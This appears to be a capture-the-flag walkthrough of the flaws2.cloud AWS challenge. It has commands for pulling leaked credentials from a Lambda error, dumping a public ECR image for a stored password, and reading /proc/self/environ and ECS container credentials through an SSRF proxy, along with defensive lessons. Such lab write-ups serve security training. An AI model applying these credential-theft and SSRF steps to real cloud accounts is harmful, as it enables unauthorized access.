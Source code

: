 # http://flaws2.cloud/

## Level1: http://level1.flaws2.cloud/
Check the submit request, the request will be sent to url: `https://2rfismmoo8.execute-api.us-east-1.amazonaws.com/default/level1?code=1234`

--> you'll see the access key id, secret key, token-> add this to aws cli.

--> Try to access s3 bucket: `aws --profile level1 s3 ls s3://level1.flaws2.cloud` -> http://level1.flaws2.cloud/secret-ppxVFdwV4DDtZm8vbQRvhxL8mE6wxNco.html

**Lesson learned**

Whereas EC2 instances obtain the credentials for their IAM roles from the metadata service at 169.254.169.254 (as you learned in flaws.cloud Level 5), AWS Lambda obtains those credentials from environmental variables. Often developers will dump environmental variables when error conditions occur in order to help them debug problems. This is dangerous as sensitive information can sometimes be found in environmental variables.

Another problem is the IAM role had privilieges to list the contents of a bucket which wasn't needed for its operation. Best practice is to follow a Least Privilege strategy by giving services only the minimal privileges in their IAM policies that they need to accomplish their purpose. AWS CloudTrail logs can help identify past usage (leveraged by Duo Security's CloudTracker) or AWS Access Advisor (leveraged by Netflix's RepoKid).

Finally, you shouldn't rely on input validation to happen only on the client side or at some point upstream from your code. AWS applications, especially serverless, are composed of many building blocks all chained together. Developers sometimes assume that something upstream has already performed input validation. In this case, the client data was validated by Javascript which could be bypasseed, which then passed into API Gateway and finally to the Lambda. Applications are often more complex than that, and these architectures can change over time, possibly breaking assumptions about where validation is supposed to occur.

## Level 2:
- http://level1.flaws2.cloud/secret-ppxVFdwV4DDtZm8vbQRvhxL8mE6wxNco.html
- What is ECR: https://aws.amazon.com/ecr/
- The challenge hint that it runing as a container, and we also have the ECR repository is named `level2` with public permission. So we can use the command to get list images of this container: `aws ecr list-images --repository-name level2 --profile level1 --region us-east-1`

```
{
    "imageIds": [
        {
            "imageTag": "latest", 
            "imageDigest": "sha256:513e7d8a5fb9135a61159fbfbc385a4beb5ccbd84e5755d76ce923e040f9607e"
        }
    ]
}
```

or using the command `aws ecr   describe-images --repository-name level2 --profile level1 --region us-east-1`

```
{
    "imageDetails": [
        {
            "imageSizeInBytes": 75937660, 
            "imageDigest": "sha256:513e7d8a5fb9135a61159fbfbc385a4beb5ccbd84e5755d76ce923e040f9607e", 
            "imageManifestMediaType": "application/vnd.docker.distribution.manifest.v2+json", 
            "imageTags": [
                "latest"
            ], 
            "registryId": "653711331788", 
            "repositoryName": "level2", 
            "imagePushedAt": 1543289656.0
        }
    ]
}
```
- Next get credential to login docker: `aws ecr get-login --profile level1 --region us-east-1`

- AWS docker repo format: `aws_account_id.dkr.ecr.us-west-2.amazonaws.com/repo-name:latest`
--> 653711331788.dkr.ecr.us-east-1.amazonaws.com/level2:latest
**Option 1** using docker to pull image and extract:
- `docker login`
- `docker pull 653711331788.dkr.ecr.us-east-1.amazonaws.com/level2:latest`
- `docker history 2d73de35b781 --no-trunc` -> get login, password ` /bin/sh -c htpasswd -b -c /etc/nginx/.htpasswd flaws2 secret_password `
- Bonus: `docker run -it --entrypoint sh 2d73de35b781` -> /var/www/html

**Options 2**: Using aws cli
- `aws ecr batch-get-image --repository-name level2  --image-ids imageTag=latest --region us-east-1 --profile level1`
- `aws ecr   get-download-url-for-layer --repository-name level2 --region us-east-1 --profile level1 --layer-digest sha256:2d73de35b78103fa305bd941424443d520524a050b1e0c78c488646c0f0a0621`

**Lesson learned**: 
There are lots of other resources on AWS that can be public, but they are harder to brute-force for because you have to include not only the name of the resource, but also the the Account ID and region. They also can't be searched with DNS records. However, it is still best to avoid having public resources.

You also learned a little about Docker

#$ Level 3:`http://level3-oc6ou6dnkw8sszwvdrraxc5t5udrsw3s.flaws2.cloud/`
The first hint: Containers running via ECS on AWS have their creds at 169.254.170.2/v2/credentials/GUID where the GUID is found from an environment variable AWS_CONTAINER_CREDENTIALS_RELATIVE_URI

- Using the web proxy, we can access the `proc/self/environ`, when i try to search this website in google, i also found that path, too: `http://container.target.flaws2.cloud/proxy/file:///proc/self/environ`.
- The GUID is contained in `AWS_CONTAINER_CREDENTIALS_RELATIVE_URI` variable, so the url will be: http://container.target.flaws2.cloud/proxy/http://169.254.170.2/v2/credentials/374f10ce-0ad9-49d8-8c11-52956bdbfacb 

- At here, You can see the config keys for aws cli.
- `aws s3 ls --profile level3` -> get the bucket url for the-end chall.
